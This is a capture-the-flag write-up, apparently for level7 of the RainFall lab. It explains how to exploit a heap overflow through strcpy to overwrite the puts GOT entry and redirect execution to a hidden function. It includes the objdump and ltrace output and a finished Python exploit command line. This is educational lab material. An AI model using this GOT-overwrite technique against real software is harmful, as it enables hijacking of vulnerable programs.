

Like the previous level before we start by opening the file in [dogbolt](https://dogbolt.org/).

Here we can see that it use `malloc` and `strcpy`. We know that `strcpy` is not secure so let's try to use it to call the `m` function.
Here is what we will try to do :


After analyzing the code we see that `v5` is after `v6`
So with the first `strcpy`  We will try to overflow on `v5` to overwrite the address of the second `strcpy` destination.
In the second `strcpy` we will write the address of `m` in the previous defined destination.
Ok we will try to put the address of `m` in a function call after `fgets` here `puts`

Let's find some addresses :

- address of `m` : 
```Shell
level7@RainFall:~$ objdump -t level7 
...
08049960 g     O .bss   00000050              c
080484f4 g     F .text  0000002d              m
08049940 g       *ABS*  00000000              __bss_start
...
```
`m` in little endian : \xf4\x84\x04\x08

- address of `puts` (in the GOT) : 

```Shell
level7@RainFall:~$ objdump -R level7 

level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
0804991c R_386_JUMP_SLOT   time
08049920 R_386_JUMP_SLOT   strcpy
08049924 R_386_JUMP_SLOT   malloc
08049928 R_386_JUMP_SLOT   puts
0804992c R_386_JUMP_SLOT   __gmon_start__
08049930 R_386_JUMP_SLOT   __libc_start_main
08049934 R_386_JUMP_SLOT   fopen
```
in little endian : \x28\x99\x04\x08

Now let's find the last thing (the offset). For this we will use ltrace with a [pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator) and check what do we have at the second `strcpy` destination:
```Shell
level7@RainFall:~$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag AAAA
__libc_start_main(0x8048521, 3, 0xbffff724, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                                        = 0x0804a008
malloc(8)                                                                                        = 0x0804a018
malloc(8)                                                                                        = 0x0804a028
malloc(8)                                                                                        = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...)                                        = 0x0804a018
strcpy(0x37614136, "AAAA" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
Pattern used : `Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5A`
Offset : 20

Everything put together, give us :
[padding to overflow][address of `puts`][address of `m`]
```Shell
./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
```